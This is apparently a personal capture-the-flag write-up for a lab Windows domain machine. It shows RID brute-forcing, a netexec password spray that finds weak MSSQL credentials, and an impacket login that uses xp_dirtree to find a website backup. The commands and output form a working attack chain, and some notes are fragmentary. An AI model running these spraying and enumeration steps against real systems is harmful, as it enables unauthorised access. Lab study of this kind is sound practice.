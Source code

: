 -- When running **RID brute-forcing**, your goal is to enumerate **Security Identifiers (SIDs)** of users and groups.
- The method works by taking a known SID structure and **incrementing the RID values** to guess new user accounts.
---
-make file with user accounts (lower case , upper case)
-lets make password list with user names
```bash
┌──(pwn㉿kali)-[~]
└─$ netexec smb 10.10.11.236 -u user.txt -p pas.txt --no-bruteforce --continue-on-success
 it will check sequence no brute force randomly

nxdb 
smb > creds
cred ID = use the id 


netexec 10.10.11.236 -id (id)

```
---
```bash
┌──(pwn㉿kali)-[~]
└─$ netexec mssql 10.10.11.236 -u operator -p operator   
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator 

```

## pre-exploitation

```bash
──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 mssqlclient.py manager/operator:operator@10.10.11.236 -windows-auth

SQL (MANAGER\Operator  guest@master)> 

```

```mssql
SQL (MANAGER\Operator  guest@master)> xp_dirtree c://

```

-inetpub is **the folder on a computer that is the default folder for Microsoft Internet Information Services (IIS**
```mssql
SQL (MANAGER\Operator  guest@master)> xp_dirtree c://inetpub/wwwroot

---
website-backup-27-07-23-old.zip       1      1   

```
-this mean if we went back to `http://manager.htb/website-backup-27-07-23-old.zip` , we will download the .zip file
